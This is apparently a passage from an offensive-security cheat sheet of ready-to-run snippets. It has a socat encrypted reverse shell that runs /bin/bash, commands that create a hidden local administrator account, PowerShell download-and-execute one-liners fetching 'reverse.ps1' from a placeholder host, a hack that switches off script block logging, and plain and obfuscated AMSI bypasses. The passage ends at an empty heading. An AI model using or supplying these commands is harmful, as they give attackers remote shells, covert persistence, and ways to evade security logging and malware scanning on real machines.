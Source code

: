 ```console
socat -d -d OPENSSL-LISTEN:8443,cert=cert.pem,verify=0,fork STDOUT

# connect to listener
socat OPENSSL:localhost:8443,verify=0 EXEC:/bin/bash
```
### Retrieving Certificate From Private Key
```console
openssl rsa -in private.key -pubout -outform PEM -out public.key
```
### Create/Add User To Local Admininistrators Group and Hide User From Windows Logon Screen
```
net.exe user DefaultUser REDACTED /ADD 

net.exe localgroup Administrators DefaultUser /ADD 

reg.exe ADD 'HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList' /v DefaultUser /t REG_DWORD /d 0 /f
```
### PowerShell Net.Client Patch Work Around
```powershell
// Long Version
$webreq = [System.Net.WebRequest]::Create("http://server.com/reverse.ps1")
$resp = $webreq.GetResponse()
$respstream = $resp.GetResponseStream()
$reader = [System.IO.StreamReader]::new($respstream)
$content = $reader.ReadToEnd()
IEX($content)

// Short Version
IEX([Net.Webclient]::new().DownloadString("http://server.com/reverse.ps1"))
```
### Disable PowerShell Script Logging
```powershell
$settings = [Ref].Assembly.GetType("System.Management.Automation.Utils").GetField("cachedGroupPolicySettings","NonPublic,Static").GetValue($null);
$settings["HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging"] = @{}
$settings["HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging"].Add("EnableScriptBlockLogging", "0")
```
### EyeWitness
```console
# from url list
eyewitness -f urls.txt --threads 10 --web
# from Nmap xml output file
eyewitness -x nmap.xml --threads 10 --web
```
### AMSI Bypass
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)

# Obfuscated ASMI Bypass (same as line above)
sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )

# Alternative AMSI bypass technique not detected by PowerShell autologging
```